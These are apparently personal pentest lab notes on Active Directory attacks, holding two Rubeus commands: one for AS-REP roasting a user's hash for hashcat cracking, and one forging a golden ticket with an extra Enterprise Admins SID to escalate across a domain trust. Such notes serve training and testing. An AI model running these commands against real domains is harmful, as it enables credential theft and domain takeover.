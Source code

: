 
[[../../env/active-directory/attacks/ASREP Roasting]]
```powershell-session
Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

[[../../env/active-directory/attacks/ExtraSIDs (SIDHistory)]]

```powershell-session
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
